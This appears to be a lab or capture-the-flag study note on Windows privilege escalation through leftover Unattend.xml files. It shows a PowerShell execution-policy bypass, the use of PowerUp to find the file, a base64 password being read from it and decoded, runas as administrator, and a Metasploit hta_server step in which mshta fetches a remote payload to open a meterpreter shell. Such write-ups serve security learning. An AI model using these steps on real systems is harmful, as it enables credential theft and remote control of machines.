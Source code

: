 ### Windows Configuration Files
- The ***unattended Windows Setup Utility***, which is used to ***automate the mass installation/deployment*** of Windows on systems.
- This tool ***utilizes configuration files*** that contain specific configurations and user account credentials, specifically the Administrator account's password.
- If the Unattended Windows setup configuration files are left on the target system after installation, they can ***reveal user account credentials***.

### Unattended Windows Setup
- The Unattended Windows setup utility will typically utilize one of the following configuration files that contain user account and system configuration info:
	- C:\\Windows\\Panther\\Unattend.xml
	- C:\\Windows\\Panther\\Autounattend.xml
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be ***encoded in base64***.

***

### Practical

##### Using PowerUp
##### Import `PowerUp.ps1` script and `Invoke-PrivescAudit` Function
```
powershell -ep bypass # PowerShell execution policy bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
```
We find the Unattended.xml file.

```
cat C:\Windows\Panther\Unattended.xml
```
We have discovered the password.

##### Decoding the Password with PowerShell
```
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password
```

##### `runAs`
The `runas` command in PowerShell allows you to run programs or commands as a different user.
Execute the following command once you find the password:
```
runas.exe /user:administrator cmd
```

At this point we can get the flag, however, we can use `hta_server` module in metasploit to gain meterpreter session which offers more comprehensive control over the target system. 

##### Metasploit
```
use exploit/windows/misc/hta_server
run
```
This module hosts an HTML Application (HTA) that when opened will run a payload via PowerShell.

Copy the generated payload i.e. **“http://IP:8080/Bn75U0NL8ONS.hta"** and run it on cmd.exe with `mshta` command to gain the meterpreter shell.

##### Switch to Target Machine
```
mshta.exe http://IP:8080/Bn75U0NL8ONS.hta
```
We can expect a meterpreter shell.